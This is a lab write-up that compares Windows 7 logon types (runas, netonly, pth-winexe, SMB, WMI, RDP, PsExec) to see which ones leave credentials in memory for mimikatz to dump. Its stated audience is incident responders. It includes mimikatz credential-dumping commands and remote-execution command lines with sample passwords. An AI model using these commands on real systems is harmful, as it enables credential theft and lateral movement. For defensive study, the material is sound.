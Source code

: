 ```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump using mimikatz on the victim system to see what we can get before we start logging on to it using other methods such as runas, psexec, etc. To test this, the victim system was rebooted and no other attempts to login to the system were made except for the interactive logon to get access to the console:

{% code title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code title="responder@victim" %}
```csharp
runas /user:low cmd
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code title="responder@victim" %}
```csharp
runas /user:spot@offense cmd
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode %}

{% code title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode %}

{% code title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode %}

{% code title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

## References

{% embed url="https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes" %}



